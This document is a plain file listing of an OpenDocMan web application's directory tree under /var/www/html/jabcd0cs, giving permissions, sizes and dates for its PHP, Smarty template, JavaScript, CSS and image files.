-rwxrwxrwx 1 root root 19226 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/js/jquery.dataTables.min.js.gz
-rwxrwxrwx 1 root root 227090 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/js/jquery.dataTables.js
-rwxrwxrwx 1 root root 17987 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/license-gpl2.txt
-rwxrwxrwx 1 root root 1440 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/license-bsd.txt
-rwxrwxrwx 1 root root 1284 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.is_trusted.php
-rwxrwxrwx 1 root root 2464 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.process_cached_inserts.php
-rwxrwxrwx 1 root root 1949 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.assemble_plugin_filepath.php
-rwxrwxrwx 1 root root 3130 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.write_compiled_include.php
-rwxrwxrwx 1 root root 1444 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.rmdir.php
-rwxrwxrwx 1 root root 1258 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.assign_smarty_interface.php
-rwxrwxrwx 1 root root 3604 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.read_cache_file.php
-rwxrwxrwx 1 root root 1081 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.write_compiled_resource.php
-rwxrwxrwx 1 root root 2656 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.run_insert_handler.php
-rwxrwxrwx 1 root root 1025 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.process_compiled_include.php
-rwxrwxrwx 1 root root 2147 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.load_resource_plugin.php
-rwxrwxrwx 1 root root 1694 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.is_secure.php
-rwxrwxrwx 1 root root 1002 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.get_include_path.php
-rwxrwxrwx 1 root root 2507 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.create_dir_structure.php
-rwxrwxrwx 1 root root 1602 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.smarty_include_php.php
-rwxrwxrwx 1 root root 1583 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.display_debug_console.php
-rwxrwxrwx 1 root root 2286 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.rm_auto.php
-rwxrwxrwx 1 root root 4429 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.load_plugins.php
-rwxrwxrwx 1 root root 2467 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.get_php_resource.php
-rwxrwxrwx 1 root root 1524 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.write_file.php
-rwxrwxrwx 1 root root 360 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.get_microtime.php
-rwxrwxrwx 1 root root 3647 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/internals/core.write_cache_file.php
-rwxrwxrwx 1 root root 63600 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/Smarty.class.php
-rwxrwxrwx 1 root root 94363 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/Smarty_Compiler.class.php
-rwxrwxrwx 1 root root 3562 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/debug.tpl
-rwxrwxrwx 1 root root 751 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.count_words.php
-rwxrwxrwx 1 root root 2884 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.debug_print_var.php
-rwxrwxrwx 1 root root 8743 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.fetch.php
-rwxrwxrwx 1 root root 481 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.lower.php
-rwxrwxrwx 1 root root 835 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.debug.php
-rwxrwxrwx 1 root root 3797 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_options.php
-rwxrwxrwx 1 root root 1014 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.eval.php
-rwxrwxrwx 1 root root 585 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.replace.php
-rwxrwxrwx 1 root root 676 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.strip_tags.php
-rwxrwxrwx 1 root root 7262 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_select_time.php
-rwxrwxrwx 1 root root 481 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.upper.php
-rwxrwxrwx 1 root root 1162 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.assign_debug_info.php
-rwxrwxrwx 1 root root 579 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.string_format.php
-rwxrwxrwx 1 root root 979 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.popup_init.php
-rwxrwxrwx 1 root root 743 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.count_characters.php
-rwxrwxrwx 1 root root 774 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/shared.escape_special_chars.php
-rwxrwxrwx 1 root root 1255 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.regex_replace.php
-rwxrwxrwx 1 root root 1123 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/compiler.assign.php
-rwxrwxrwx 1 root root 613 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.wordwrap.php
-rwxrwxrwx 1 root root 4381 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_checkboxes.php
-rwxrwxrwx 1 root root 644 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.spacify.php
-rwxrwxrwx 1 root root 630 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.count_paragraphs.php
-rwxrwxrwx 1 root root 11955 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_select_date.php
-rwxrwxrwx 1 root root 1772 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.counter.php
-rwxrwxrwx 1 root root 717 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.nl2br.php
-rwxrwxrwx 1 root root 3280 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.popup.php
-rwxrwxrwx 1 root root 2843 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/block.textformat.php
-rwxrwxrwx 1 root root 1167 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/shared.make_timestamp.php
-rwxrwxrwx 1 root root 2751 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.escape.php
-rwxrwxrwx 1 root root 1782 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.date_format.php
-rwxrwxrwx 1 root root 742 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.strip.php
-rwxrwxrwx 1 root root 635 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.default.php
-rwxrwxrwx 1 root root 4841 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_radios.php
-rwxrwxrwx 1 root root 6158 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.config_load.php
-rwxrwxrwx 1 root root 5236 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.mailto.php
-rwxrwxrwx 1 root root 1037 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.capitalize.php
-rwxrwxrwx 1 root root 623 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.cat.php
-rwxrwxrwx 1 root root 2669 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/outputfilter.trimwhitespace.php
-rwxrwxrwx 1 root root 1324 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.truncate.php
-rwxrwxrwx 1 root root 567 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.indent.php
-rwxrwxrwx 1 root root 3192 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.cycle.php
-rwxrwxrwx 1 root root 5343 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_table.php
-rwxrwxrwx 1 root root 2650 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.math.php
-rwxrwxrwx 1 root root 4783 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/function.html_image.php
-rwxrwxrwx 1 root root 653 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/plugins/modifier.count_sentences.php
-rwxrwxrwx 1 root root 12914 Nov 27 2013 /var/www/html/jabcd0cs/includes/smarty/Config_File.class.php
-rwxrwxrwx 1 root root 10858 Nov 27 2013 /var/www/html/jabcd0cs/includes/additional-methods.js
-rwxrwxrwx 1 root root 15146 Nov 27 2013 /var/www/html/jabcd0cs/COPYING
-rwxrwxrwx 1 root root 3383 Nov 27 2013 /var/www/html/jabcd0cs/view.php
-rwxrwxrwx 1 root root 21031 Nov 27 2013 /var/www/html/jabcd0cs/udf.php
-rwxrwxrwx 1 root root 40525 Nov 27 2013 /var/www/html/jabcd0cs/user.php
-rwxrwxrwx 1 root root 14047 Nov 27 2013 /var/www/html/jabcd0cs/classHeaders.php
-rwxrwxrwx 1 root root 15705 Nov 27 2013 /var/www/html/jabcd0cs/functions.archive.php
-rwxrwxrwx 1 root root 1422 Nov 27 2013 /var/www/html/jabcd0cs/secureurl.php
-rwxrwxrwx 1 root root 10492 Nov 27 2013 /var/www/html/jabcd0cs/check-in.php
-rwxrwxrwx 1 root root 1943 Nov 27 2013 /var/www/html/jabcd0cs/odm-init.php
-rwxrwxrwx 1 root root 2942 Nov 27 2013 /var/www/html/jabcd0cs/docs/developers.txt
-rwxrwxrwx 1 root root 57617 Nov 27 2013 /var/www/html/jabcd0cs/docs/php_coding_standard.html
-rwxrwxrwx 1 root root 16081 Nov 27 2013 /var/www/html/jabcd0cs/docs/opendocman.txt
-rwxrwxrwx 1 root root 144 Nov 27 2013 /var/www/html/jabcd0cs/functions.js
-rwxrwxrwx 1 root root 1645 Nov 27 2013 /var/www/html/jabcd0cs/images/find-new-users.png
-rwxrwxrwx 1 root root 218 Nov 27 2013 /var/www/html/jabcd0cs/images/exclamation.gif
-rwxrwxrwx 1 root root 1308 Nov 27 2013 /var/www/html/jabcd0cs/images/plus.png
-rwxrwxrwx 1 root root 519 Nov 27 2013 /var/www/html/jabcd0cs/images/check-out.png
-rwxrwxrwx 1 root root 4102 Nov 27 2013 /var/www/html/jabcd0cs/images/txt.png
-rwxrwxrwx 1 root root 655 Nov 27 2013 /var/www/html/jabcd0cs/images/cross.png
-rwxrwxrwx 1 root root 3804 Nov 27 2013 /var/www/html/jabcd0cs/images/revision.xcf
-rwxrwxrwx 1 root root 1917 Nov 27 2013 /var/www/html/jabcd0cs/images/import-2.png
-rwxrwxrwx 1 root root 5538 Nov 27 2013 /var/www/html/jabcd0cs/images/detete.xcf
-rwxrwxrwx 1 root root 2599 Nov 27 2013 /var/www/html/jabcd0cs/images/file_unlocked.xcf
-rwxrwxrwx 1 root root 3827 Nov 27 2013 /var/www/html/jabcd0cs/images/logo.eps
-rwxrwxrwx 1 root root 1360 Nov 27 2013 /var/www/html/jabcd0cs/images/admin.gif
-rwxrwxrwx 1 root root 2257 Nov 27 2013 /var/www/html/jabcd0cs/images/logout_logo.gif
-rwxrwxrwx 1 root root 4744 Nov 27 2013 /var/www/html/jabcd0cs/images/search.xcf
-rwxrwxrwx 1 root root 2766 Nov 27 2013 /var/www/html/jabcd0cs/images/add.png
-rwxrwxrwx 1 root root 3618 Nov 27 2013 /var/www/html/jabcd0cs/images/logout.png
-rwxrwxrwx 1 root root 3911 Nov 27 2013 /var/www/html/jabcd0cs/images/check-in.png
-rwxrwxrwx 1 root root 1585 Nov 27 2013 /var/www/html/jabcd0cs/images/check.png
-rwxrwxrwx 1 root root 567 Nov 27 2013 /var/www/html/jabcd0cs/images/logout.jpg
-rwxrwxrwx 1 root root 4824 Nov 27 2013 /var/www/html/jabcd0cs/images/revision.png
-rwxrwxrwx 1 root root 722 Nov 27 2013 /var/www/html/jabcd0cs/images/history.png
-rwxrwxrwx 1 root root 5473 Nov 27 2013 /var/www/html/jabcd0cs/images/check-in_dev.xcf
-rwxrwxrwx 1 root root 661 Nov 27 2013 /var/www/html/jabcd0cs/images/edit.png
-rwxrwxrwx 1 root root 686 Nov 27 2013 /var/www/html/jabcd0cs/images/delete.png
-rwxrwxrwx 1 root root 686 Nov 27 2013 /var/www/html/jabcd0cs/images/file_locked.png
-rwxrwxrwx 1 root root 4666 Nov 27 2013 /var/www/html/jabcd0cs/images/search.png
-rwxrwxrwx 1 root root 455 Nov 27 2013 /var/www/html/jabcd0cs/images/textfield_key.png
-rwxrwxrwx 1 root root 3233 Nov 27 2013 /var/www/html/jabcd0cs/images/setting.png
-rwxrwxrwx 1 root root 6215 Nov 27 2013 /var/www/html/jabcd0cs/images/check-out.xcf
-rwxrwxrwx 1 root root 218 Nov 27 2013 /var/www/html/jabcd0cs/images/exclamation_red.gif
-rwxrwxrwx 1 root root 6123 Nov 27 2013 /var/www/html/jabcd0cs/images/a.jpg
-rwxrwxrwx 1 root root 824 Nov 27 2013 /var/www/html/jabcd0cs/images/icon_sort_null.gif
-rwxrwxrwx 1 root root 2240 Nov 27 2013 /var/www/html/jabcd0cs/images/file_locked.xcf
-rwxrwxrwx 1 root root 6079 Nov 27 2013 /var/www/html/jabcd0cs/images/view.xcf
-rwxrwxrwx 1 root root 685 Nov 27 2013 /var/www/html/jabcd0cs/images/view.png
-rwxrwxrwx 1 root root 6487 Nov 27 2013 /var/www/html/jabcd0cs/images/na.jpg
-rwxrwxrwx 1 root root 7092 Nov 27 2013 /var/www/html/jabcd0cs/images/edit.xcf
-rwxrwxrwx 1 root root 503 Nov 27 2013 /var/www/html/jabcd0cs/images/file_unlocked.png
-rwxrwxrwx 1 root root 832 Nov 27 2013 /var/www/html/jabcd0cs/images/blue_left.gif
-rwxrwxrwx 1 root root 76 Nov 27 2013 /var/www/html/jabcd0cs/images/icon_sort_za.gif
-rwxrwxrwx 1 root root 76 Nov 27 2013 /var/www/html/jabcd0cs/images/icon_sort_az.gif
-rwxrwxrwx 1 root root 1316 Nov 27 2013 /var/www/html/jabcd0cs/images/control.png
-rwxrwxrwx 1 root root 3524 Nov 27 2013 /var/www/html/jabcd0cs/images/logo.gif
-rwxrwxrwx 1 root root 13723 Nov 27 2013 /var/www/html/jabcd0cs/toBePublished.php
-rwxrwxrwx 1 root root 774 Nov 27 2013 /var/www/html/jabcd0cs/CREDITS.txt
-rwxrwxrwx 1 root root 7190 Nov 27 2013 /var/www/html/jabcd0cs/forgot_password.php
-rwxrwxrwx 1 root root 3253 Nov 27 2013 /var/www/html/jabcd0cs/out.php
-rwxrwxrwx 1 root root 8041 Nov 27 2013 /var/www/html/jabcd0cs/admin.php
-rwxrwxrwx 1 root root 12774 Nov 27 2013 /var/www/html/jabcd0cs/database.sql
-rwxrwxrwx 1 root root 147 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2node.gif
-rwxrwxrwx 1 root root 142 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2lastnode.gif
-rwxrwxrwx 1 root root 129 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2mnode.gif
-rwxrwxrwx 1 root root 135 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2blank.gif
-rwxrwxrwx 1 root root 167 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2folderopen.gif
-rwxrwxrwx 1 root root 199 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2doc.gif
-rwxrwxrwx 1 root root 140 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2vertline.gif
-rwxrwxrwx 1 root root 161 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2folderclosed.gif
-rwxrwxrwx 1 root root 130 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2plastnode.gif
-rwxrwxrwx 1 root root 234 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2link.gif
-rwxrwxrwx 1 root root 133 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2pnode.gif
-rwxrwxrwx 1 root root 125 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftv2/ftv2mlastnode.gif
-rwxrwxrwx 1 root root 13820 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ftiens4.js
-rwxrwxrwx 1 root root 5201 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/ua.js
-rwxrwxrwx 1 root root 4048 Nov 27 2013 /var/www/html/jabcd0cs/class.tree/class.tree.php
-rwxrwxrwx 1 root root 5647 Nov 27 2013 /var/www/html/jabcd0cs/FormCheck.js
-rwxrwxrwx 1 root root 3293 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/commentform.tpl
-rwxrwxrwx 1 root root 241 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/_add_footer.tpl
-rwxrwxrwx 1 root root 1288 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/filetypes_deleteshow.tpl
-rwxrwxrwx 1 root root 1544 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/filetypes.tpl
-rwxrwxrwx 1 root root 351 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/css/jquery.noticeMsg.css
-rwxrwxrwx 1 root root 442 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/css/system.css
-rwxrwxrwx 1 root root 3656 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/css/install.css
-rwxrwxrwx 1 root root 5467 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/details.tpl
-rwxrwxrwx 1 root root 3437 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/edit.tpl
-rwxrwxrwx 1 root root 367 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/_edit_footer.tpl
-rwxrwxrwx 1 root root 4679 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/_filePermissions.tpl
-rwxrwxrwx 1 root root 2266 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/head_include.tpl
-rwxrwxrwx 1 root root 223 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/images/white-grad-active.png
-rwxrwxrwx 1 root root 210 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/images/white-grad.png
-rwxrwxrwx 1 root root 4403 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/images/info.png
-rwxrwxrwx 1 root root 3433 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/add.tpl
-rwxrwxrwx 1 root root 1561 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/access_log.tpl
-rwxrwxrwx 1 root root 3115 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/out.tpl
-rwxrwxrwx 1 root root 3479 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/settings.tpl
-rwxrwxrwx 1 root root 1894 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/login.tpl
-rwxrwxrwx 1 root root 110 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_glass_75_e6e6e6_1x400.png
-rwxrwxrwx 1 root root 111 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_glass_75_dadada_1x400.png
-rwxrwxrwx 1 root root 4369 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-icons_222222_256x240.png
-rwxrwxrwx 1 root root 101 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_highlight-soft_75_cccccc_1x100.png
-rwxrwxrwx 1 root root 4369 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-icons_cd0a0a_256x240.png
-rwxrwxrwx 1 root root 120 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_glass_55_fbf9ee_1x400.png
-rwxrwxrwx 1 root root 4369 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-icons_2e83ff_256x240.png
-rwxrwxrwx 1 root root 4369 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-icons_454545_256x240.png
-rwxrwxrwx 1 root root 119 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_glass_95_fef1ec_1x400.png
-rwxrwxrwx 1 root root 178 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_flat_75_ffffff_40x100.png
-rwxrwxrwx 1 root root 105 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_glass_65_ffffff_1x400.png
-rwxrwxrwx 1 root root 4369 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-icons_888888_256x240.png
-rwxrwxrwx 1 root root 180 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/images/ui-bg_flat_0_aaaaaa_40x100.png
-rwxrwxrwx 1 root root 33273 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/smoothness/jquery-ui-1.8.18.custom.css
-rwxrwxrwx 1 root root 4913 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery.multiselect.filter.js
-rwxrwxrwx 1 root root 210423 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery-ui-1.8.18.custom.min.js
-rwxrwxrwx 1 root root 33273 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery-ui-1.8.18.custom.css
-rwxrwxrwx 1 root root 1582 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery.multiselect.css
-rwxrwxrwx 1 root root 18123 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery.multiselect.js
-rwxrwxrwx 1 root root 325 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/multiSelect112/jquery.multiselect.filter.css
-rwxrwxrwx 1 root root 3858 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/toBePublished.tpl
-rwxrwxrwx 1 root root 1011 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/filetype_add.tpl
-rwxrwxrwx 1 root root 1464 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/js/jquery.noticeMsg.js
-rwxrwxrwx 1 root root 41514 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/js/buttonfix.js
-rwxrwxrwx 1 root root 3872 Nov 27 2013 /var/www/html/jabcd0cs/templates/common/deleteview.tpl
-rwxrwxrwx 1 root root 587 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/README
-rwxrwxrwx 1 root root 21491 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/css/bootstrap-responsive.css
-rwxrwxrwx 1 root root 122657 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/css/bootstrap.css
-rwxrwxrwx 1 root root 84 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/css/tweeter.css
-rwxrwxrwx 1 root root 103297 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/css/bootstrap.min.css
-rwxrwxrwx 1 root root 1149 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/footer.tpl
-rwxrwxrwx 1 root root 1150 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/images/favicon.ico
-rwxrwxrwx 1 root root 1709 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/content.tpl
-rwxrwxrwx 1 root root 3187 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/header.tpl
-rwxrwxrwx 1 root root 4352 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/img/glyphicons-halflings-white.png
-rwxrwxrwx 1 root root 4352 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/img/glyphicons-halflings.png
-rwxrwxrwx 1 root root 3253 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/login.tpl
-rwxrwxrwx 1 root root 3856 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/js/html5.js
-rwxrwxrwx 1 root root 27002 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/js/bootstrap.min.js
-rwxrwxrwx 1 root root 58528 Nov 27 2013 /var/www/html/jabcd0cs/templates/tweeter/js/bootstrap.js
-rwxrwxrwx 1 root root 587 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/README
-rwxrwxrwx 1 root root 2687 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/css/default.css
-rwxrwxrwx 1 root root 861 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/footer.tpl
-rwxrwxrwx 1 root root 3555 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/header.tpl
-rwxrwxrwx 1 root root 410 Nov 27 2013 /var/www/html/jabcd0cs/templates/default/img/bg-button.gif
-rwxrwxrwx 1 root root 2687 Nov 27 2013 /var/www/html/jabcd0cs/AccessLog_class.php
-rwxrwxrwx 1 root root 7638 Nov 27 2013 /var/www/html/jabcd0cs/databaseData_class.php
-rwxrwxrwx 1 root root 1463 Nov 27 2013 /var/www/html/jabcd0cs/profile.php
-rwxrwxrwx 1 root root 3968 Nov 27 2013 /var/www/html/jabcd0cs/crumb.php
-rwxrwxrwx 1 root root 6098 Nov 27 2013 /var/www/html/jabcd0cs/Plugin_class.php
-rwxrwxrwx 1 root root 3704 Nov 27 2013 /var/www/html/jabcd0cs/filetypes.php
-rwxrwxrwx 1 root root 6696 Nov 27 2013 /var/www/html/jabcd0cs/help.html
-rwxrwxrwx 1 root root 3422 Nov 27 2013 /var/www/html/jabcd0cs/reports/file_list.php
-rwxrwxrwx 1 root root 16472 Nov 27 2013 /var/www/html/jabcd0cs/category.php
-rwxrwxrwx 1 root root 2840 Nov 27 2013 /var/www/html/jabcd0cs/file_ops.php
-rwxrwxrwx 1 root root 2042 Nov 27 2013 /var/www/html/jabcd0cs/config-sample.php
-rwxrwxrwx 1 root root 1649 Nov 27 2013 /var/www/html/jabcd0cs/odm-load.php
-rwxrwxrwx 1 root root 4976 Nov 27 2013 /var/www/html/jabcd0cs/Settings_class.php
-rwxrwxrwx 1 root root 6003 Nov 27 2013 /var/www/html/jabcd0cs/check_exp.php
-rwxrwxrwx 1 root root 9843 Nov 27 2013 /var/www/html/jabcd0cs/ldap.inc
-rwxrwxrwx 1 root root 2324 Nov 27 2013 /var/www/html/jabcd0cs/Department_class.php
-rwxrwxrwx 1 root root 15167 Nov 27 2013 /var/www/html/jabcd0cs/mimetypes.php
-rwxrwxrwx 1 root root 1566 Nov 27 2013 /var/www/html/jabcd0cs/Category_class.php
-rwxrwxrwx 1 root root 7500 Nov 27 2013 /var/www/html/jabcd0cs/delete.php
-rwxrwxrwx 1 root root 8840 Nov 27 2013 /var/www/html/jabcd0cs/edit.php
-rwxrwxrwx 1 root root 10729 Nov 27 2013 /var/www/html/jabcd0cs/UserPermission_class.php
-rwxrwxrwx 1 root root 14771 Nov 27 2013 /var/www/html/jabcd0cs/add.php
-rwxrwxrwx 1 root root 6724 Nov 27 2013 /var/www/html/jabcd0cs/File_class.php
-rwxrwxrwx 1 root root 4018 Nov 27 2013 /var/www/html/jabcd0cs/index.php
-rwxrwxrwx 1 root root 3018 Nov 27 2013 /var/www/html/jabcd0cs/settings.php
-rwxrwxrwx 1 root root 5400 Nov 27 2013 /var/www/html/jabcd0cs/ajax_udf.php
-rwxrwxrwx 1 root root 3272 Nov 27 2013 /var/www/html/jabcd0cs/logout.php
-rwxrwxrwx 1 root root 3883 Nov 27 2013 /var/www/html/jabcd0cs/check-out.php
-rwxrwxrwx 1 root root 30482 Nov 27 2013 /var/www/html/jabcd0cs/udf_functions.php
-rwxrwxrwx 1 root root 193 Nov 27 2013 /var/www/html/jabcd0cs/udf_help.html
-rwxrwxrwx 1 root root 4601 Nov 27 2013 /var/www/html/jabcd0cs/FileTypes_class.php
-rwxrwxrwx 1 root root 814 Nov 27 2013 /var/www/html/jabcd0cs/version.php
-rwxrwxrwx 1 root root 4129 Nov 27 2013 /var/www/html/jabcd0cs/in.php
-rwxrwxrwx 1 root root 33897 Nov 27 2013 /var/www/html/jabcd0cs/functions.php
-rwxrwxrwx 1 root root 901 Nov 27 2013 /var/www/html/jabcd0cs/odm-header.php
-rwxrwxrwx 1 root root 9428 Nov 27 2013 /var/www/html/jabcd0cs/signup.php
-rwxrwxrwx 1 root root 12191 Nov 27 2013 /var/www/html/jabcd0cs/User_Perms_class.php
-rwxrwxrwx 1 root root 62 Nov 27 2013 /var/www/html/jabcd0cs/.gitignore
